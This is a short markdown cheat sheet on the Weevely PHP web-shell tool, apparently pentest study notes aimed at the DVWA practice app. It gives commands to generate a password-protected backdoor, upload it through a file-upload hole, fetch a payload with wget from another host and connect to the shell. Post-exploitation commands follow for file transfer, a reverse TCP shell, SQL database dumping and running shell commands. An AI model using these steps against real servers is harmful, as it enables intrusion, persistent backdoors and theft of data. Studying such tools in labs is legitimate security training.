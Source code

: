 # Weevely

## Usage
1. Genrate backdoor in Kali
   - ```weevely generate [password] [file name]```
   -  ```weevely generate 123456 /root/shell.php```
2. Upload 
   - we have an input field
     -  Upload *"shell.php"* in vulnerable app (DVWA-Low)
   - we access to system shell
     - ```wget http://10.20.14.213/shell.txt``` 
     - ```mv shell.txt shell.php```
3. Run
   - Send a request to uploaded php file *"http://192.168.152.132/dvwa/hackable/uploads/shell.php"*
4. Connect to shell from Kali
   - ```weevely [url o file] [password]```
   -  ```weevely http://192.168.152.132/dvwa/hackable/uploads/shell.php```

## Weevely commands
- List weevely functions
  - ```help```
- Help of a specific function 
  - ```[function name] -h```   
- Run weevely functions
  - ```[function name]```
- Download
  - ```file_download -vector [VECTOR] [FileName] -host [HOST] [location to store file]```
- Upload
  - ```file_upload -vector [VECTOR] [location on local machine] [location to store file]```
- Reverse shell
  - ```backdoor_reversetcp -vector [VECTOR] [Your IP] [PORT]```
- Access database
  - ```sql_console```
  - ```sql_dump -vector [VECTOR] -host [HOST] -lpath [location to store data] [DB Name] [username] [password]```
- Other functions
  - ```whoami``` 
  - ``` shell_sh [command]```
  - ```shell_sh -v [vector] [command]```
